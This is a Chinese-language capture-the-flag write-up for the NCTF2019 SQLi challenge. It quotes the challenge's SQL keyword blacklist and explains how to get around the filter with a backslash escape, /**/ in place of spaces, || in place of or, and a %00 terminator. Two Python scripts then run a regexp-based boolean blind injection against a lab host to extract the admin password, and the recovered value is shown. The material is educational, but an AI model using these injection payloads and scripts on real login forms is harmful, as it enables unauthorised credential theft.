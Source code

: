 # [NCTF2019]SQLi regexp 盲注

/robots.txt



<img src="https://i-blog.csdnimg.cn/blog_migrate/a08ddf70394ab6a4c02869561f78a9c2.png" alt="" style="max-height:101px; box-sizing:content-box;" />


访问一下

```swift
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";
 
 
If $_POST['passwd'] === admin's password,
 
Then you will get the flag;
```

这里实现了过滤

说需要admin的密码

这里我们可以发现没有过滤 \ 所以username 我们可以通过 \ 来绕过

所以我们通过passwd注入

or 使用 || 代替

然后空格使用 /**/代替

我们尝试登入



<img src="https://i-blog.csdnimg.cn/blog_migrate/a5949c581ae47e3d8426f09e4cea7448.png" alt="" style="max-height:418px; box-sizing:content-box;" />


发现进行302跳转 但是没办法

所以还是要通过 查询admin passwd 进入

所以我们开始

写注入的代码 这里很多都被过滤了

但是放出了 ^和 regexp

正则

我们可以通过正则来读取

和下面的例子一样

```cobol
select (select 'b') > (select 'abc')  这个时候会返回0
 
 
select name regexp "^a"     这里的name是admin   //我自己的数据库
 
返回的是1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5c647ff9fa1a7192c127a3583174f54f.png" alt="" style="max-height:232px; box-sizing:content-box;" />


所以我们可以通过 布尔注入实现这道题的读取

```cobol
import time
from urllib import parse
 
import requests
import string
 
baseurl="http://271f8427-5e33-4411-aae5-90e418285c4f.node4.buuoj.cn:81/"
 
paylaod = '||/**/passwd/**/regexp/**/"^{}";{}'
 
def add(flag):
    res=''
    res += flag
    return  res
flag=''
ascii_chars = string.ascii_letters + string.digits + string.punctuation
print(ascii_chars)
for i in range(20):
    for j in ascii_chars:
        data = add(flag+j)
        paylaod1 = paylaod.format(data,parse.unquote('%00'))
        print(paylaod1)
        data={'username':'\\',
              'passwd':paylaod1}
        re=requests.post(url=baseurl,data=data)
        if re.status_code == 429:
            time.sleep(0.5)
        if "welcome.php" in re.text:
            flag += j
            print(flag)
            break
```

这里很坑 上面的 字符*的时候会循环输出

you*u*u*u

不知道是环境问题还是什么

所以我们现在替换

```cobol
import time
from urllib import parse
 
import requests
import string
 
baseurl="http://271f8427-5e33-4411-aae5-90e418285c4f.node4.buuoj.cn:81/"
 
paylaod = '||/**/passwd/**/regexp/**/"^{}";{}'
 
def add(flag):
    res=''
    res += flag
    return  res
flag=''
ascii_chars = string.ascii_letters+string.digits+"_"
for i in range(20):
    for j in ascii_chars:
        data = add(flag+j)
        paylaod1 = paylaod.format(data,parse.unquote('%00'))
        data={'username':'\\',
              'passwd':paylaod1}
        re=requests.post(url=baseurl,data=data)
        if re.status_code == 429:
            time.sleep(0.5)
        if "welcome.php" in re.text:
            flag += j
            print(flag)
            break
```

这个就可以爆出值了

```cobol
you_will_never_know7788990
```